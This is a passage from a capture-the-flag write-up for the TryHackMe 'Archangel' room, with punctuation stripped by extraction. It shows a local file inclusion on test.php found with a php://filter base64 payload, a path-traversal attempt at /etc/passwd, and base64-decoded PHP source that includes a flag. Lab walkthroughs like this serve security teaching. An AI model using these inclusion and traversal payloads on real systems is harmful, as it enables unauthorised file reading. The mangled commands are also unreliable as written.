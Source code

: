   htm php  Status  403 

 test php  Status  200 
   endhighlight   

The scan found an interesting file by the name of test php  Visiting this PHP file and clicking on the button  we are met with the following webpage 

     reports Archangel image9 png 

We can see that there is a view parameter in the URL with the full path of a PHP file called mrrobot php  This full path is a hint that there may be an LFI  Local File Inclusion  vulnerability within the test php script 

    Local File Inclusion

We can verify this by seeing if we can convert the PHP file to base64 in order to read its source code  Using the PHP base64 filter on the mrrobot php file  we can see the following output 

URL 

http   mafialive thm test php view php   filter convert base64 encode resource  var www html development testing mrrobot php

Output 

     reports Archangel image3 png 

Expectedly  the output of this URL is a base64 string relating to the source code of the mrrobot php file  Decoding this string we see the following 

   highlight bash   
   0xd4y Writeup     business tryhackme easy linux archangel   
      echo  n  PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8 Cg     base64  d  php echo  Control is an illusion     
   endhighlight   

Although we were able to verify the LFI vulnerability by converting the mrrobot php file into base64  we were unsuccessful in including  etc passwd  even though it is a globally readable file by default  

URL 

http   mafialive thm test php view  var www html development testing mrrobot php                      etc passwd

Output 

     reports Archangel image7 png 

The webpage provides an error message that says  Sorry  Thats not allowed   Judging by this error message and the unsuccessful attempt at including the targeted file  we can conclude that there is a filter inside the test php script that is detecting attempts at including local files  Implementing the same methodology that we used to read the source code for the mrrobot php file  we can view the source code of the test php file 

   highlight bash   
       0xd4y Writeup     business tryhackme easy linux archangel   
      echo  n  CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3llZDwvaDE CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhlcmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E PGJyPgogICAgICAgIDw cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygk  
c3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYoIWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyK  
CRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJaW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYX  
RzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8 CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPgoKCg    base64  d   test php
   endhighlight   

